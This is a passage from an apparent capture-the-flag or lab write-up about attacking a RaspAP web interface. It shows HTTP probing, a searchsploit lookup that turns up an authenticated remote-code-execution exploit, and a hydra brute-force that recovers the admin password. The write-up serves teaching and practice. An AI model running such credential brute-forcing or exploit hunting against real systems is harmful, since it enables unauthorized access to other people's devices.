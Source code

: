 I go back to focus on the webserver...

I make a couple odd requests and notice the `WWW-Authenticate` header:

```
┌──(kali㉿kali)-[~]
└─$ http http://walla:8091/../..
HTTP/1.1 401 Unauthorized
Cache-Control: no-store, no-cache, must-revalidate
Content-Length: 15
Content-type: text/html; charset=UTF-8
Date: Thu, 07 Mar 2024 04:56:51 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: lighttpd/1.4.53
Set-Cookie: PHPSESSID=9o34rkhqe2v83p2ehbhj7c73i1; path=/
WWW-Authenticate: Basic realm="RaspAP"

Not authorized
```

I missed that on the `nmap` service fingerprint scan! Will search for exploits for `RaspAP`:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit raspap
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated)  | php/webapps/50224.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

This is **really** promising... but we still need to be authenticated against the server... We'll try harder.

I try brute forcing the login form with `hydra` and succeed:

```
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8091 walla http-get   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-06 21:20:56
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://walla:8091/
[8091][http-get] host: walla   login: admin   password: secret
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-06 21:21:11
```

